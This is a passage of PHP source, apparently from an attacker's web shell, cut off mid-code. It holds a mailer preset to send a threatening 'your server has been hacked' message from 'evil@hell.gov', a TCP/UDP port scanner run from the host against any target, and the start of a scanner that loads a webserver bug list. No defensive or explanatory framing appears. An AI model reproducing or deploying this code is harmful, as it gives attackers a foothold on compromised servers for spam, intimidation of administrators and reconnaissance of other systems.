 global $msgbox,$et,$hcwd;
$cwd= getcwd();
if (!empty($_REQUEST['subject'])&&!empty($_REQUEST['body'])&&!empty($_REQUEST['from'])&&!empty($_REQUEST['to'])){
$to=$_REQUEST['to'];$from=$_REQUEST['from'];$subject=$_REQUEST['subject'];$body=$_REQUEST['body'];
if (!mail($to,$subject,$body,"From: $from"))break;
echo "$msgbox&lt;b&gt;Mail sent!&lt;/b&gt;&lt;br&gt;$et";
}
echo "&lt;center&gt;&lt;br&gt;&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"50%\"&gt;&lt;tr&gt;&lt;form method=\"POST\"&gt;&lt;td&gt;&lt;b&gt;Mailer:&lt;/b&gt;&lt;/td&gt;&lt;/tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;SMTP&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;".ini_get('SMTP')." (".ini_get('smtp_port').")&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td bgcolor=\"#808080\"&gt;From:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input name=from type=text value=\"evil@hell.gov\" size=55&gt;$hcwd&lt;/td&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;To:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input name=to type=text value=\""; if (!empty($_REQUEST['to'])) echo htmlspecialchars($_REQUEST['to']); elseif(!empty($_ENV["SERVER_ADMIN"])) echo $_ENV["SERVER_ADMIN"];else echo "admin@".getenv('HTTP_HOST'); echo "\" size=55&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td bgcolor=\"#808080\"&gt;Subject:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input name=subject type=text value=\"YOUR SERVER HAS BEED HACKED :-P\" size=55&gt;&lt;/td&gt;&lt;tr&gt;&lt;td bgcolor=\"#666666\"&gt;Body:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;textarea rows=\"18\" cols=\"43\" name=body&gt;Admin, your system has been hacked! if you don`t seCure it, next time i`ll format your box.&lt;/textarea&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"10%\" bgcolor=\"#808080\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#808080\" align=\"right\"&gt;&lt;input type=submit class=buttons value=Send&gt;&lt;/form&gt;$et";
}
function scanneR(){
global $hcwd;
if (!empty($_SERVER["SERVER_ADDR"])) $host=$_SERVER["SERVER_ADDR"];else $host ="127.0.0.1";
$udp=(empty($_REQUEST['udp']))?0:1;$tcp=(empty($_REQUEST['tcp']))?0:1;
if (($udp||$tcp) && !empty($_REQUEST['target']) && !empty($_REQUEST['fromport']) && !empty($_REQUEST['toport']) && !empty($_REQUEST['timeout']) && !empty($_REQUEST['portscanner'])){
$target=$_REQUEST['target'];$from=(int) $_REQUEST['fromport'];$to=(int)$_REQUEST['toport'];$timeout=(int)$_REQUEST['timeout'];$nu = 0;
echo "&lt;font color=blue&gt;Port scanning started against ".htmlspecialchars($target).":&lt;br&gt;";
$start=time();
for($i=$from;$i&lt;=$to;$i++){
if($tcp){
if (checkthisporT($target,$i,$timeout)){
$nu++;
$ser="";
if(getservbyport($i,"tcp"))$ser="(".getservbyport($i,"tcp").")";
echo "$nu) $i $ser (&lt;a href=\"telnet://$target:$i\"&gt;Connect&lt;/a&gt;) [TCP]&lt;br&gt;";
}
}
if($udp)if(checkthisporT($target,$i,$timeout,1)){$nu++;$ser="";if(getservbyport($i,"udp"))$ser="(".getservbyport($i,"udp").")";echo "$nu) $i $ser [UDP]&lt;br&gt;";}
flusheR();
}
$time=time()-$start;
echo "Done! ($time seconds)&lt;/font&gt;";
}
elseif (!empty($_REQUEST['securityscanner'])){
echo "&lt;font color=blue&gt;";
$start=time();
$from=$_REQUEST['from'];
$to=(int)$_REQUEST['to'];
$timeout=(int)$_REQUEST['timeout'];
$f = substr($from,strrpos($from,".")+1);
$from = substr($from,0,strrpos($from,"."));
if(!empty($_REQUEST['httpscanner'])){
echo "Loading webserver bug list...";
flusheR();
$buglist=whereistmP().DIRECTORY_SEPARATOR.namE();